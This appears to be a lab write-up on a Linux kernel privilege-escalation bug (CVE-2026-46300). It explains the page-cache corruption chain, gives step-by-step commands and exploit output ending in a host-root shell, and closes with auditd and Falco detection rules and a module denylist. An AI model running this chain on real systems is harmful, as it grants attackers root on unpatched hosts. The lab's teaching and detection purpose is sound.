

# 📌 CVE-2026-46300: Fragnesia

## How a Patch Becomes a Vulnerability

### SKBFL_SHARED_FRAG: The Honesty Flag

A socket buffer (struct sk_buff) carries an array of fragments, each describing a memory page that belongs to the packet. Most fragments are private buffers owned by the network stack. Some, however, are references to pages that belong to other subsystems, most commonly the page cache. When a process calls splice() to send a file's contents through a socket, the kernel attaches a reference to the file's page-cache page directly to the outgoing skb's fragment list, without copying any bytes.

The SKBFL_SHARED_FRAG flag is the kernel's way of marking such fragments as externally owned. The flag tells every downstream code path one thing: "this memory does not belong to you; if you need to modify it, copy it first." Functions that need to mutate skb data check skb_has_shared_frag() and call skb_cow_data() to obtain a private buffer before doing anything destructive.

The flag is an invariant. As long as every code path that touches a shared fragment respects it, page-cache pages stay safe even as they pass through the network stack.

### skb_try_coalesce: Where the Invariant Breaks

skb_try_coalesce() is a kernel function that merges two skbs into one. It is used by the TCP stack on the receive side to combine queued segments into larger buffers, reducing memory overhead and improving throughput. When two skbs are coalesced, the second skb's fragments are transferred onto the first skb's fragment array, and the second skb is freed.

This is where the bug lives. When skb_try_coalesce() transfers paged fragments between buffers, it does not propagate the SKBFL_SHARED_FRAG marker on those fragments. The coalesced skb ends up carrying fragments that are still backed by the page cache, but with the flag cleared. To every downstream code path, the coalesced skb now looks like a perfectly ordinary private buffer that can be modified in place.

The bug was introduced in 2013 (commit cef401de7be8) and sat dormant for thirteen years, because for most of that time no production code path looked at coalesced skbs and decided to write to them. The Dirty Frag patch changed that.

### The XFRM ESP-in-TCP Receive Path

ESP-in-TCP (RFC 8229) is an IPsec transport mode that encapsulates ESP packets inside a TCP stream. It is used in NAT-traversal scenarios where UDP-based ESP encapsulation does not work. When a TCP socket is configured for espintcp via setsockopt, the kernel switches the socket's Upper Layer Protocol (ULP) handler to one that pulls ESP packets out of the TCP byte stream and feeds them to esp_input().

esp_input() is the function the original Dirty Frag bug lived in. It performs AEAD decryption on the incoming packet's payload, writing the plaintext back into the skb. For performance, the decryption is done in place when the input skb is uncloned and has no frag list. The function calls skb_has_shared_frag() to verify that none of the fragments are externally backed. If the flag is clear, the function takes the fast path; if it is set, the function falls back to allocating a private buffer via skb_cow_data() before decrypting.

This is exactly the check the Dirty Frag patch added. Before the patch, the function did not always honour the flag. After the patch, the function does. The patch was correct. The flag, however, is no longer trustworthy after skb_try_coalesce() strips it.

### The Combination That Becomes Fragnesia

Putting the four components together produces the chain:

```bash
1. Attacker opens a TCP socket and splices /usr/bin/su's page cache pages
   into the socket's receive queue (skbs are flagged SKBFL_SHARED_FRAG).
2. Kernel coalesces queued skbs via skb_try_coalesce(); the flag is lost.
3. Attacker calls setsockopt(TCP_ULP, "espintcp") to switch the socket to
   ESP-in-TCP mode. Queued data is now processed as ESP ciphertext.
4. esp_input() checks the (now-clear) shared-frag flag, takes the fast
   path, performs AES-GCM decryption in place over the page cache page.
5. The decryption is a XOR of the AES-GCM keystream against the ciphertext.
   By choosing the IV, the attacker chooses the keystream byte, which
   chooses the byte written into the page cache.
```

## The Patch That Became the Vulnerability

## Exploitation

### Connecting to the Lab Machine

When the machine is started, the room opens a split-view terminal already logged in as the unprivileged user karen. The steps below should be followed in order in that terminal. To connect from your own machine over SSH instead, use the username karen and the password fragnesia2026:

`ssh karen@10.48.147.37`

Either approach lands you at the same prompt.

### Step 1: Confirm Your Context

```bash
karen@fragnesia:~$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
```

No elevated privileges, no special groups.

### Step 2: Build the Proof of Concept

The exploit lives at /home/karen/fragnesia/fragnesia.c. Build it with the following command:

```bash
cd /home/karen/fragnesia
gcc -O2 -w fragnesia.c -o exp
```

The -w flag suppresses several harmless warnings in the published source. The warnings concern unused functions left over from the developer's debug helpers, a non-null execve argument that the exploit relies on, and an ignored write return value in the terminal-reset code. None of them affect the exploit's behaviour. The build completes in a second or two.

### Step 3: Run the Exploit (Stage 1: Corrupt the Page Cache)

The Fragnesia exploitation is a two-stage process. Stage one corrupts the page cache copy of /usr/bin/su using the espintcp write primitive; this is what the published proof-of-concept automates. Stage two triggers the corrupted binary from outside the user namespace, which is what produces the host-root shell. The proof-of-concept does not perform stage two automatically; the operator does it manually after the exploit exits.

Run the exploit:

`./exp`

The exploit prints a long progress trace as it works through the chain. The output below is condensed for readability; the actual run on the lab machine is several hundred lines longer.

```bash
karen@fragnesia:~/fragnesia$ ./exp
[*] uid=1001 euid=1001 gid=1001 egid=1001
[*] mode=xfrm_espintcp_pagecache_replace collateral=after
[*] target=/usr/bin/su size=55680
outer_write_open_denied=1 errno=13 (Permission denied)
userns_setup: outer_uid=1001 outer_gid=1001 ns_uid=0 ns_gid=0
netns_setup=1
loopback_up=1
xfrm_espintcp_state_add=1
namespace_setup_complete=1
userns_root_mapped_to_outer_user_write_open_denied=1 errno=13 (Permission denied)
[*] timing: rx_pre_ulp=30000us tx_pre_splice=1000us rx_post_ulp=30000us
[*] range: offset=0x0 len=192 last=0xbf enc_len=4080 splice_len=4096
[*] payload=7f454c4602010100... (192 bytes of ELF stub)
stream0_table_entries=256
[*] smashing 192 bytes into read-only page cache  changed=176  skipped=16  remaining=0
  0000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00
  0010  02 00 3e 00 01 00 00 00  78 00 40 00 00 00 00 00
  ...
  00b0  2f 62 69 6e 2f 73 68 00  00 00 00 00 00 00 00 00
  [==================================================] 192/192 (100%)
[*] verifying 192 bytes...
[*] bytes_flip_summary len=192 changed=176 skipped=16
[+] BUG: changed requested copied byte range to desired values
# whoami
root
# cat /root/flag.txt
cat: /root/flag.txt: Permission denied
```

The shell prompt has changed from $ to #, and whoami returns root. This is the proof-of-concept's own verification step, but the shell it lands in is not yet a host-root shell. A few details from this output deserve closer attention before moving on to stage two.

- The line outer_write_open_denied=1 errno=13 confirms that karen does not have write access to /usr/bin/su from outside the namespace. This is the permission boundary the exploit is about to cross.
- The line userns_setup: ... ns_uid=0 ns_gid=0 shows that karen is mapped to UID 0 inside a new user namespace, granting CAP_NET_ADMIN for the XFRM operations that follow without any real privileges on the host.
- The changed=176 skipped=16 line is significant. The exploit's ELF stub is 192 bytes long, but /usr/bin/su is itself an ELF binary, so its first few bytes (7f 45 4c 46 02 01 01 00 ...) already match the stub. The per-byte loop skips those, and only the 176 bytes that differ are actually written.
- The shell that appears after [+] BUG: ... is the proof-of-concept's execve("/usr/bin/su") call running inside the user namespace. Inside the namespace, karen is mapped to UID 0, so the shellcode's setuid(0) is a no-op and the resulting shell is namespace-root.
- The cat /root/flag.txt returns Permission denied because /root/flag.txt is owned by the host's real UID 0, which the namespace cannot read. The namespace presents files owned by unmapped UIDs as owned by nobody (UID 65534).

This is the expected result of stage one. The corruption is done, but the host privilege boundary has not yet been crossed. Stage two does that.

### Step 4: Trigger the Corruption from Outside the Namespace

Exit the namespace shell to return to karen's regular shell:

`# exit`

The prompt returns to karen@tryhackme-2204:~/fragnesia$, indicating you are back outside the namespace as UID 1001. The page cache, however, is still corrupted. The kernel's page cache is global to the host and persists across namespace boundaries; only an eviction or a drop_caches would clear it.

Now run /usr/bin/su from karen's regular shell:

`/usr/bin/su`

```bash
karen@fragnesia:~/fragnesia$ /usr/bin/su
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

This time the shell really is host-root. The sequence of events at the kernel level is the following.

1. karen's shell execves /usr/bin/su. The on-disk file has the setuid bit set with owner root.
2. The kernel honours the setuid bit and sets the process's effective UID to 0 (real host UID 0, since karen's shell is in the initial user namespace).
3. The kernel loads the binary's bytes from the page cache, which still contains the corrupted ELF stub.
4. The corrupted entry point runs the shellcode under effective UID 0.
5. The shellcode calls setgid(0) and setuid(0). Because the effective UID is already 0 at the host level, setuid(0) succeeds and sets the real UID to 0 as well.
6. The shellcode calls execve("/bin/sh", ...), spawning a shell with real UID 0.

The result is a real host-root shell. The fact that the namespace step was needed to gain CAP_NET_ADMIN for the XFRM operations is now irrelevant; the shell is a child of karen's regular shell and lives entirely outside any user namespace.

### Step 5: Read the Flag

From the host-root shell, the flag is now readable:

`# cat /root/flag.txt`

The Permission Denied error from stage one has disappeared because the process is now genuinely host UID 0, not namespace UID 0.

### Step 6: Verify the On-Disk File

Confirm that the on-disk binary was never modified:

`# sha256sum /usr/bin/su`

The hash matches a freshly-installed Ubuntu kernel build. The exploit only modified the in-memory page cache copy; the on-disk binary was never touched. AIDE, Tripwire, IMA, and any other file integrity tool that reads from disk would report this file as clean. The corruption only exists in the kernel's page cache and is visible only to processes that read through that cache.

### Step 7: Exit and Drop the Page Cache

The proof-of-concept does not automatically clean up after itself, so subsequent invocations of su will continue to re-spawn the root shell until the corrupted pages are evicted. Drop them manually before leaving the machine:

```bash
# exit
karen@fragnesia:~/fragnesia$ sudo sh -c 'echo 3 > /proc/sys/vm/drop_caches'
```

The kernel evicts the corrupted pages from the cache. The next read of /usr/bin/su reloads the clean copy from disk, and /usr/bin/su returns to its normal behaviour.

Warning: Re-running the exploit after dropping the cache is fine. The page cache is reloaded from a clean disk every time, and the exploit re-corrupts a fresh page each run. Leaving a machine with corrupted pages in the cache is poor hygiene; always drop or reboot after testing.

## Detection and Mitigation

The Fragnesia exploitation pattern is detectable in real time through the same syscall-monitoring approach used for Copy Fail and Dirty Frag, with one specific signal that is new to this CVE.

### Detection

The exploit's signature is a sequence of system calls that no legitimate application produces:

- unshare(CLONE_NEWUSER | CLONE_NEWNET) followed by writes to /proc/self/uid_map
- socket(AF_ALG, ...) calls used to build the keystream lookup table
- A socket(AF_INET, SOCK_STREAM) followed shortly by setsockopt(SOL_TCP, TCP_ULP, "espintcp")
- splice() from a setuid binary file descriptor into the same TCP socket
- A burst of XFRM_MSG_NEWSA netlink messages registering a security association with a known AES-128-GCM key
- An eventual execve("/usr/bin/su", ...) and a child process running with effective UID 0

The TCP_ULP = "espintcp" setsockopt is the highest-fidelity single signal. Legitimate use of espintcp is rare; it is primarily seen in strongSwan deployments configured for NAT traversal in environments where UDP-encapsulated ESP does not work. A process outside that small set of daemons issuing the setsockopt is unusual; a process outside that set issuing the setsockopt and then immediately splicing a setuid binary into the socket is exploitation.



An auditd rule that captures the setsockopt path:

```bash
-a always,exit -F arch=b64 -S setsockopt -F a0!=-1 -k fragnesia_setsockopt
-a always,exit -F arch=b64 -S unshare -F a0=0x10000000 -k fragnesia_unshare
-a always,exit -F arch=b64 -S splice -k fragnesia_splice
```

The first rule logs all setsockopt calls (the auditd kernel API does not allow filtering on the optname argument directly); correlation has to happen in the SIEM. The second logs unshare() calls that include CLONE_NEWUSER (0x10000000). The third logs all splice calls, which can be high-volume; restrict the scope by adding -F path=/usr/bin/su or similar if your audit subsystem supports it.

A Falco rule that captures the Fragnesia-specific signal of espintcp ULP activation after a splice from a setuid binary into the same TCP socket:

```bash
- list: setuid_binaries
  items: [/usr/bin/su, /bin/su, /usr/bin/sudo, /usr/bin/passwd, /usr/bin/chsh]

- macro: espintcp_legitimate_processes
  condition: >
    proc.name in (charon, charon-systemd, pluto, swanctl)

- rule: Potential Fragnesia exploit (espintcp ULP after splice)
  desc: >
    Detects an unprivileged process that splices a setuid binary into a
    TCP socket and then activates the espintcp ULP on it, the trigger
    pattern for CVE-2026-46300.
  condition: >
    (evt.type = splice and fd.name in (setuid_binaries)) or
    (evt.type = setsockopt and evt.arg.optname = TCP_ULP and
     not espintcp_legitimate_processes)
  output: >
    Potential Fragnesia trigger
    (user=%user.name uid=%user.uid command=%proc.cmdline pid=%proc.pid
     fd=%fd.name container_id=%container.id)
  priority: CRITICAL
  tags: [host, exploit, privilege_escalation, cve_2026_46300]
```

The first arm of the condition catches the page-cache page entering the TCP socket. The second arm catches the espintcp ULP activation that triggers the in-place AES-GCM decryption. Either signal alone is suspicious; both signals in the same process within a few seconds is exploitation. Note that the legitimate-process allowlist for espintcp ULP is small — strongSwan's charon daemon and a handful of related IKE daemons. Any process outside that list activating espintcp warrants investigation.

### Key Syscalls to Monitor

| Syscall                                             | What to Watch For                                           | Relevance                                      |
| --------------------------------------------------- | ----------------------------------------------------------- | ---------------------------------------------- |
| unshare(CLONE_NEWUSER                               | CLONE_NEWNET) Unprivileged process creating both namespaces | High-confidence first step                     |
| setsockopt(TCP_ULP, "espintcp")                     | Process not in known strongSwan/IPsec daemon list           | Specific to Fragnesia, very low false positive |
| socket(AF_ALG, ...) with SOCK_SEQPACKET             | Process not in kcapi-\* or cryptsetup set                   | Same signal used in Copy Fail detection        |
| splice() from a setuid binary fd to a TCP socket fd | Page-cache page entering the TCP receive queue              | Trigger preparation                            |
| XFRM_MSG_NEWSA netlink with known weak key          | Unusual SA registration pattern                             | Bulk SA registration in microseconds           |

### MITRE ATT&CK Mapping

| Technique                                            | MITRE ID  | Where it appears                                  |
| ---------------------------------------------------- | --------- | ------------------------------------------------- |
| Exploitation for Privilege Escalation                | T1068     | The kernel LPE itself                             |
| Abuse Elevation Control Mechanism: Setuid and Setgid | T1548.001 | execve("/usr/bin/su") after page cache corruption |
| Escape to Host                                       | T1611     | When the exploit is run from inside a container   |
| Indicator Removal                                    | T1070     | Manual drop_caches after exploitation             |

### Mitigation

The candidate upstream fix is commit f84eca581739, posted to the netdev mailing list on 13 May 2026. It is a two-line change to skb_try_coalesce() that preserves the SKBFL_SHARED_FRAG marker when transferring paged fragments. At the time the room was prepared, the patch was awaiting maintainer review and not yet merged to Linus's tree.

Distribution patches are arriving in advance of the mainline merge. AlmaLinux released patched kernels for AL8, AL9, and AL10 in its testing repository on 13 May, refreshed the builds on 14 May to incorporate the follow-up patches, and is moving them to production once community testing completes. CloudLinux, SUSE, Debian, and Ubuntu have published advisories; per-release status varies and updates as patches land.

Until your distribution ships a patched kernel, the same modprobe denylist used for Dirty Frag is effective against Fragnesia.

#### Step 1: Apply the Module Denylist

```bash
sudo sh -c 'printf "install esp4 /bin/false\ninstall esp6 /bin/false\ninstall rxrpc /bin/false\n" > /etc/modprobe.d/dirtyfrag.conf'
sudo rmmod esp4 esp6 rxrpc 2>/dev/null
sudo sh -c 'echo 3 > /proc/sys/vm/drop_caches'
```

The configuration file blocks future loads of esp4, esp6, and rxrpc. The rmmod line unloads any currently-loaded copies. The drop_caches line evicts any corrupted pages already in the cache.

#### Step 2: Verify the Block Is Active

`sudo modprobe esp4`

The command should return an error. The module is blocked from loading.

#### Step 3: Confirm the PoC Fails

Re-run the exploit:

`/home/karen/fragnesia/exp`

The exploit should fail when the espintcp ULP setsockopt is rejected because the esp4 module is no longer available. The chain cannot proceed past that point.

Warning: The denylist breaks legitimate use of IPsec ESP and AFS RxRPC. Production hosts running strongSwan, libreswan, or AFS clients should not apply this mitigation; they need a patched kernel instead. For development and lab environments and for most server workloads that do not use these protocols, the modules are unused and the denylist is safe. Importantly, organisations that applied the modprobe denylist as part of the Dirty Frag mitigation are already protected against Fragnesia. Organisations that applied only the Dirty Frag kernel patch are not.

### Patch Status at Disclosure

The Fragnesia disclosure compressed the typical patch-then-disclosure timeline. The PoC, the candidate patch, and the public writeup all appeared on the same day, with no embargo. The two-line nature of the fix and the small number of Fixes: tags it carries (two) hint that the same code area will receive more audit attention in the coming weeks, and the unpatched second variant in skb_segment() is already evidence of that.

The kernels affected span every release before 13 May 2026 that includes the Dirty Frag fix. Older kernels without the Dirty Frag fix have the underlying skb_try_coalesce() bug but no consumer that makes a decision based on the stripped flag; they are technically affected by the latent defect but not exploitable via Fragnesia specifically.
